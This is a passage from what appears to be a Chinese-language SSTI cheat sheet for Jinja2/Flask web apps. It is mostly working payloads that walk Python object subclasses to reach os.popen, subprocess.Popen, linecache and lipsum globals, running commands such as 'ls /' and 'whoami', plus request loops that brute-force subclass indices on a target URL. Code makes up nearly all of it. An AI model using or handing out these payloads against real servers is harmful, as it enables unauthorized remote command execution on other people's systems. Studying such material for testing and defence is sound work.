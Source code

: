 示例payload

```
{{''.__class__.__bases__[0].__subclasses__()[79].__init__.__globals__['os'].popen('ls /').read()}}
```

### subprocess.popen类

subprocess 意在替代其他几个老的模块或者函数，比如：`os.system`、`os.popen` 等函数。

```python
import requests

for i in range(500):
    url = "http://xxx/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"]}}"

    res = requests.get(url=url, headers=headers)
    if 'linecache' in res.text:
        print(i)
```

则构造如下payload执行命令即可：

```php
{{[].__class__.__base__.__subclasses__()[245]('ls /',shell=True,stdout=-1).communicate()[0].strip()}}
```

### linecache 函数

linecache 这个函数可用于读取任意一个文件的某一行，而这个函数中也引入了 os 模块

```python
import requests

for i in range(500):
    url = "http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__}}"

    res = requests.get(url=url, headers=headers)
    if 'linecache' in res.text:
        print(i)
```

示例payload

```
{{[].__class__.__base__.__subclasses__()[168].__init__.__globals__['linecache']['os'].popen('ls /').read()}}{{[].__class__.__base__.__subclasses__()[168].__init__.__globals__.linecache.os.popen('ls /').read()}}
```

### lipsum

前段时间兴起的一条路，非常方便的可以进行rce

```python
{{lipsum.__globals__['os'].popen('whoami').read()}}
{{lipsum.__globals__.os.popen('whoami').read()}}
{{lipsum.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()")}}
```

